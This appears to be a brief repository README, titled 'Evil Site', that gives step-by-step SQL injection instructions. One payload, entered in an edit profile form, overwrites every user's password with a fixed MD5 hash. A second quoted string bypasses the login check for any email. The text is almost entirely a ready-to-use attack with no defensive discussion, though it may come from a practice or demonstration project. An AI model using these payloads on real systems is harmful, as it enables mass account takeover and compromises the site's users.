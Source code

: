 # Evil Site
Malicious site


Run injection with:

>", password = "e10adc3949ba59abbe56e057f20f883e" WHERE 1;

On the edit profile form

Then use this to login with any email:

> " OR email = "